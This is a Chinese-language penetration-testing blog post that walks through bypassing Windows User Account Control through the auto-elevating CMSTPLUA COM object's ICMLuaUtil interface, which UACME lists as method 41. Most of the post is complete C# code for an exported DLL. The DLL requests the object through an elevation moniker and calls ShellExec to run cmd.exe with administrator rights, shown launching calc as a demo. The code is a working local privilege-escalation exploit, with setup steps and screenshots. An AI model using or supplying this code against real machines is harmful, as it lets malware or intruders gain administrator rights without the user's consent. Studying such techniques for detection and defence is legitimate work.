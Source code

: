 ```yaml
---
title: "BypassUAC With ICMLuaUtil"
date: 2020-05-21T09:58:33+08:00
draft: false
tags:
- BypassUAC
- ICMLuaUtil
series:
-
categories:
- 渗透测试
---
```



本文主要讲述UACME项目中索引为41的ICMLuaUtil方法为例实现一个bypassuac，该方法原理在于调用COM组件中自动提权并且可以执行命令的接口。
<!--more-->

## 什么类型的COM组件可以利用
以下是UACME项目对使用`ICMLuaUtil`方式的描述

```
Author: Oddvar Moe
Type: Elevated COM interface
Method: ICMLuaUtil
Target(s): Attacker defined
Component(s): Attacker defined
Implementation: ucmCMLuaUtilShellExecMethod
Works from: Windows 7 (7600)
Fixed in: unfixed ?
How: -
```
查看[该方法对应的源码](https://github.com/hfiref0x/UACME/blob/master/Source/Akagi/methods/api0cradle.c#L55)发现是`CMSTPLUA`组件下的`ICMLuaUtil`接口。使用OleViewDotNet工具以管理员身份运行，查看对应的COM属性信息。

![image.png](https://y4er.com/img/uploads/20200521091968.png)

右键查看该组件的Elevation属性
![image.png](https://y4er.com/img/uploads/20200521094727.png)

首先这里的`Enable`、`Auto Approval`属性为`True`表示可以用该组件来绕过UAC认证，这是利用条件第一点。

第二点是需要该组件中存在执行命令的点，根据上图知道该函数位于cmlua.dll。通过OleViewDotNet提供的偏移量找到虚函数表。
![image.png](https://y4er.com/img/uploads/20200521099447.png)

## 使用csharp调用ICMLuaUtil.ShellExec执行命令
vs创建新项目，然后添加`DllExport`类库
![image.png](https://y4er.com/img/uploads/20200521092633.png)

装完之后会自动运行一个init.ps1脚本弹出来一个框，让你设置要导出的dll配置。
![image.png](https://y4er.com/img/uploads/20200521092045.png)

按图配置，点击apply，然后vs中提示重新加载文件。

先来一个最简单的dll，添加`System.Windows.Forms`引用之后生成dll

```csharp

using System;
using System.Runtime.InteropServices;
using System.Windows.Forms;


namespace MyBypassUAC
{
    public class Class1
    {
        [DllExport]
        public static void MyBypassUAC()
        {
            MessageBox.Show("aa");
        }
    }

}

```
**注意：你需要运行你生成对应系统位数的dll，否则你会碰到这样的错误**
![image.png](https://y4er.com/img/uploads/20200521102764.png)

运行x64的dll
![image.png](https://y4er.com/img/uploads/20200521108666.png)
这样就是一个简单的demo了。接下来写bypassuac的东西。

```csharp
using System;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;


namespace MyBypassUAC
{
    public class Class1
    {
        internal enum HRESULT : long
        {
            S_FALSE = 0x0001,
            S_OK = 0x0000,
            E_INVALIDARG = 0x80070057,
            E_OUTOFMEMORY = 0x8007000E
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct BIND_OPTS3
        {
            internal uint cbStruct;
            internal uint grfFlags;
            internal uint grfMode;
            internal uint dwTickCountDeadline;
            internal uint dwTrackFlags;
            internal uint dwClassContext;
            internal uint locale;
            object pServerInfo; // will be passing null, so type doesn't matter
            internal IntPtr hwnd;
        }

        [Flags]
        internal enum CLSCTX
        {
            CLSCTX_INPROC_SERVER = 0x1,
            CLSCTX_INPROC_HANDLER = 0x2,
            CLSCTX_LOCAL_SERVER = 0x4,
            CLSCTX_REMOTE_SERVER = 0x10,
            CLSCTX_NO_CODE_DOWNLOAD = 0x400,
            CLSCTX_NO_CUSTOM_MARSHAL = 0x1000,
            CLSCTX_ENABLE_CODE_DOWNLOAD = 0x2000,
            CLSCTX_NO_FAILURE_LOG = 0x4000,
            CLSCTX_DISABLE_AAA = 0x8000,
            CLSCTX_ENABLE_AAA = 0x10000,
            CLSCTX_FROM_DEFAULT_CONTEXT = 0x20000,
            CLSCTX_INPROC = CLSCTX_INPROC_SERVER | CLSCTX_INPROC_HANDLER,
            CLSCTX_SERVER = CLSCTX_INPROC_SERVER | CLSCTX_LOCAL_SERVER | CLSCTX_REMOTE_SERVER,
            CLSCTX_ALL = CLSCTX_SERVER | CLSCTX_INPROC_HANDLER
        }

        const ulong SEE_MASK_DEFAULT = 0x0;
        const ulong SW_SHOW = 0x5;

        [DllImport("ole32.dll", CharSet = CharSet.Unicode, ExactSpelling = true, PreserveSig = false)]
        [return: MarshalAs(UnmanagedType.Interface)]
        internal static extern object CoGetObject(
          string pszName,
          [In] ref BIND_OPTS3 pBindOptions,
          [In, MarshalAs(UnmanagedType.LPStruct)] Guid riid);

        [DllExport]
        public static void MyBypassUAC()
        {
            Guid classId_cmstplua = new Guid("3E5FC7F9-9A51-4367-9063-A120244FBEC7");
            // Interface ID
            Guid interfaceId_icmluautil = new Guid("6EDD6D74-C007-4E75-B76A-E5740995E24C");

            ICMLuaUtil icm = (ICMLuaUtil)LaunchElevatedCOMObject(classId_cmstplua, interfaceId_icmluautil); ;
            icm.ShellExec(@"cmd.exe", string.Format("/c {0}", "calc"), @"C:\windows\system32\", SEE_MASK_DEFAULT, SW_SHOW);
            Marshal.ReleaseComObject(icm);
        }

        public static object LaunchElevatedCOMObject(Guid Clsid, Guid InterfaceID)
        {
            string CLSID = Clsid.ToString("B");
            string monikerName = "Elevation:Administrator!new:" + CLSID;

            BIND_OPTS3 bo = new BIND_OPTS3();
            bo.cbStruct = (uint)Marshal.SizeOf(bo);
            bo.hwnd = IntPtr.Zero;
            bo.dwClassContext = (int)CLSCTX.CLSCTX_LOCAL_SERVER;

            object retVal = CoGetObject(monikerName, ref bo, InterfaceID);

            return (retVal);
        }

        [ComImport, Guid("6EDD6D74-C007-4E75-B76A-E5740995E24C"), InterfaceType(ComInterfaceType.InterfaceIsIUnknown)]
        interface ICMLuaUtil
        {
            //[MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            //void QueryInterface([In, MarshalAs(UnmanagedType.LPStruct)] Guid riid, [In, Out] ref IntPtr ppv);
            //[MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            //void AddRef();
            //[MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            //void Release();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method1();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method2();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method3();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method4();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method5();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method6();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            HRESULT ShellExec(
                [In, MarshalAs(UnmanagedType.LPWStr)]string file,
                [In, MarshalAs(UnmanagedType.LPWStr)]string paramaters,
                [In, MarshalAs(UnmanagedType.LPWStr)]string directory,
                [In]ulong fMask,
                [In]ulong nShow);
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method8();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method9();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method10();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method11();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method12();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method13();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method14();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method15();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method16();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method17();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method18();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method19();
            [MethodImpl(MethodImplOptions.InternalCall, MethodCodeType = MethodCodeType.Runtime), PreserveSig]
            void Method20();
        }
    }
}
```
通过创建ICMLuaUtil com对象icm，调用其方法ShellExec执行命令实现uac提权。

![image.png](https://y4er.com/img/uploads/20200521101885.png)

## 参考
1. https://cloud.tencent.com/developer/article/1623517
2. https://github.com/cnsimo/BypassUAC/tree/master/BypassUAC_Dll_csharp
3. https://github.com/Cn33liz/p0wnedShell/blob/master/p0wnedShell/Opsec/p0wnedMasq.cs
4. https://gist.github.com/Moriarty2016/931e86a70aadaf48b067d8a34f28a979


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**